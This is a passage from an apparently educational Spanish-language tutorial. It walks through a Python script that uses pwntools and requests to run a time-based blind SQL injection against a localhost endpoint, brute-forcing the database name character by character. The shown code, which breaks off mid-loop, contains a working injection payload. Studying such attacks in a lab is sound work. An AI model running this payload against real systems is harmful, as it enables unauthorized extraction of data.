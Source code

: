 ### 2. Manejo de interrupciones (CTRL+C)

- Definimos `def_handler()`, que imprime un mensaje y cierra el script si el usuario presiona `CTRL+C`.
    
- `signal.signal(signal.SIGINT, def_handler)`: Captura la interrupción y llama a la función.
    

---

```python
# Variables globales
main_url = "http://localhost/searchUsers.php"
characters = string.printable
```

### 3. Definición de variables globales

- `main_url`: URL del endpoint vulnerable.
    
- `characters`: Lista de caracteres imprimibles para iterar sobre ellos.
    

---

```python
def makeSQLI():

    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")

    p2 = log.progress("Datos recopilados:")

    extracted_info = ""

    time.sleep(2)
```

### 4. Función `makeSQLI()`

- `log.progress()`: Usa Pwntools para mostrar el progreso en consola.
    
- `extracted_info`: Almacena los datos extraídos.
    
- `time.sleep(2)`: Espera 2 segundos antes de iniciar la ejecución.
    

---

```python
    for position in range(1, 100):
        for character in range(33,126):
            sqli_url = main_url + "?id=1 and if(ascii(substr(database(),%d,1))=%d,sleep(0.35),1)" % (position, character)

            time_start = time.time()
            r = requests.get(sqli_url)
            time_end = time.time()
```
